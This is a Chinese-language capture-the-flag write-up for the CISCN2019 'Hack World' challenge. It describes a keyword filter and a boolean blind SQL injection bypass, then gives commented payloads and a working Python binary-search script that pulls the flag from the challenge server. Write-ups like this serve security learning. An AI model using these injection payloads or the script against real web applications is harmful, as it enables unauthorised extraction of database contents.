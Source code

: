 ![](https://i.loli.net/2021/07/19/PrDmcpFaOhlXvR1.png)



### [CISCN2019 华北赛区 Day2 Web1]Hack World ——脚本bool盲注

随便输入数字，发现1和2回显不同，而其他数字都会报ERROR；
fuzz一下发现过滤了很多，字典网上找的不是很准确，看了一下源码真实过滤如下：

```php
array(' ','||','#','-',';','&','+','or','and','`','"','insert','group',
'limit','update','delete','*','into','union','load_file','outfile','./')
```

![](https://i.loli.net/2021/07/19/YmJgvyrTxbUHwVd.png)

尝试异或运算：`1^1^1`，发现可以得到正常结果，可以判断是数字型bool盲注，感觉和昨天做的那题类似ya，跑一下脚本
因为1和2回显不同可以，可以用if语句：`if(注入语句,1,2)`也就是正确则返回下图1的结果，错误则返回下图2的结果
其实只要定义正确时候的返回值就可以了，主要目的还是区分bool(True/False)
![](https://i.loli.net/2021/07/19/ycOUW6SwQplD1eK.png)

构造payload：（我z啊，整了好久没懂为啥爆不出表名，因为information被ban会爆sql injection
我就尝试了别的库，本地测试是正常的，但这次又爆bool(False)）
先放脚本吧，也调了好多次，问题出在二分法--

```python
# 数据库
# payload = "if((ascii(substr(database(),%d,1))>%d),1,2)" % (i, mid)

# flag
# payload = "if((ascii(substr((select(flag)from(flag)),%d,1))>%d),1,2)" % (i, mid)

# 错误的表名payload
# payload = "if((ascii(substr((select(concat(table_name))from(mysql.innodb_table_stats)where(table_schema=database())),%d,1))>%d),1,2)" % (i, mid)
```

```python
import time
import requests

url = "http://510b48fa-9df7-449a-92c5-3f9f944969d1.node4.buuoj.cn/index.php"
flag = ""
i = 0
while True:
    i += 1
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:
        # print(low, high, mid)
        payload = "if((ascii(substr((select(flag)from(flag)),%d,1))>%d),1,2)" % (i, mid)
        r = requests.post(url, data={"id": payload})
        time.sleep(0.01)

        if 'glzjin' in r.text:
            low = mid + 1
            mid = (low + high) // 2
        else:
            high = mid
            mid = (low + high) // 2

    flag += chr(mid)
    print(flag)
    if low == 32:
        break
```